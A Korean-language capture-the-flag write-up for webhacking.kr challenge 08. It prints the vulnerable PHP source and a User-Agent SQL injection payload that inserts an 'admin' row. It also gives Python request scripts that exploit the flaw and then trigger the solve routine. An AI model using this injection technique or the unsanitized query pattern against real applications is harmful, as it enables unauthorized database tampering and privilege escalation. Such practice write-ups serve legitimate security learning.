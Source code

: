 ================================================================================================================
[webhacking.kr] 08
================================================================================================================

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5;
        }
        step0 -> step1[label="User-Agent: joizel','2.2.2.2','admin');#",arrowhead="normal"];
        step3 -> step2[label="@solve",arrowhead="normal"];
    }

|


Source analysis
================================================================================================================

입력 부분: $_SERVER[HTTP_USER_AGENT], getenv("HTTP_USER_AGENT")

출력 부분: @solve();

.. code-block:: php

    <html>
    <body>
    <?
    $agent=getenv("HTTP_USER_AGENT");
    $ip=$_SERVER[REMOTE_ADDR];
    $agent=trim($agent);
    $agent=str_replace(".","_",$agent);
    $agent=str_replace("/","_",$agent);
    $pat="/\/|\*|union|char|ascii|select|out|infor|schema|columns|sub|-|\+|\||!|update|del|drop|from|where|order|by|asc|desc|lv|board|\([0-9]|sys|pass|\.|like|and|\'\'|sub/";
    $agent=strtolower($agent);
    if(preg_match($pat,$agent)) 
        exit("Access Denied!");
    $_SERVER[HTTP_USER_AGENT]=str_replace("'","",$_SERVER[HTTP_USER_AGENT]);
    $_SERVER[HTTP_USER_AGENT]=str_replace("\"","",$_SERVER[HTTP_USER_AGENT]);
    $count_ck=@mysql_fetch_array(mysql_query("select count(id) from lv0"));
    if($count_ck[0]>=70) { 
        @mysql_query("delete from lv0"); 
    }
    $q=@mysql_query("select id from lv0 where agent='$_SERVER[HTTP_USER_AGENT]'");
    $ck=@mysql_fetch_array($q);
    if($ck){ 
        echo("hi <b>$ck[0]</b><p>");
        if($ck[0]=="admin"){
            @solve();
            @mysql_query("delete from lv0");
        }
    }
    if(!$ck){
        $q=@mysql_query("insert into lv0(agent,ip,id) values('$agent','$ip','guest')") or die("query error");
        echo("<br><br>done!  ($count_ck[0]/70)");
    }
    ?>
    </body>
    </html>


User-Agent 변조
================================================================================================================

입력 부분이 getenv("HTTP_USER_AGENT")이고, User-Agent를 변조해서 admin이라는 계정을 삽입할 수 있다.

.. code-block:: sql

    insert into lv0(agent,ip,id) values('$agent','$ip','guest')

해당 소스 코드를 통해 agent값을 변조하여 쿼리를 날린다.

.. code-block:: python

    import requests

    url = "http://webhacking.kr/challenge/web/web-08/index.php"
    headers = {
        "User-Agent":"joizel','2.2.2.2','admin');#"
    }
    cookies = {
        "PHPSESSID":"9johqp6c81c5hf11lkomnghhn6"
    }
    r = requests.get(url, headers = headers, cookies=cookies, verify=False)

    print r.content

등록한 agent를 이용해 쿼리를 날리면 패스워드를 확인할 수 있다.

.. code-block:: sql

    select id from lv0 where agent='$_SERVER[HTTP_USER_AGENT]'

.. code-block:: python

    import requests

    url = "http://webhacking.kr/challenge/web/web-08/index.php"
    headers = {
        "User-Agent":"joizel"
    }
    cookies = {
        "PHPSESSID":"9johqp6c81c5hf11lkomnghhn6"
    }
    r = requests.get(url, headers = headers, cookies=cookies, verify=False)

    print r.content

